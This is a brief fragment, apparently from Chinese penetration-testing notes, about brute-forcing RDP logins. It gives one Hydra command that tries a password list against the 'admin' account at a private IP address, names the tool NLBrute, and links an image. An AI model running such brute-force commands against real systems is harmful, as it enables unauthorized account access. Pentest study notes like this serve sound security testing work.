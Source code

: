 	Hydra爆破RDP
	>hydra -l admin -P /root/Desktop/passwords -S 192.168.0.0 rdp
	&
	Nlbrute
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/160.png)
